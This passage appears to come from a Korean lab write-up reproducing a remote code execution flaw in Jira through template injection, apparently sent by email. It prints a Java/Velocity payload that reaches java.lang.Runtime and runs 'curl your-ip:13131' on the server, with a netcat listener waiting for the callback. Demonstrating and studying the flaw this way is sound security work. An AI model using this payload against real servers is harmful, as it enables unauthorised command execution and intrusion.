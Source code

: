 ![](images/15.png)
- 만약 mtpd에 데이터가 표시되지 않으면 메일 대기열 확인 `http://localhost:8080/secure/admin/MailQueueAdmin!default.jspa`

![](images/16.png)
 - 전송이 완료되었다면 다시 jira 서버에서 ls 입력
 - RCE라는 파일이 생성되어 있음



## 추가2 curl

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("curl your-ip:13131").waitFor()
```
![](images/17.png)
 - nc 13131 포트 수신 대기

![](images/18.png)
 - curl로 요청
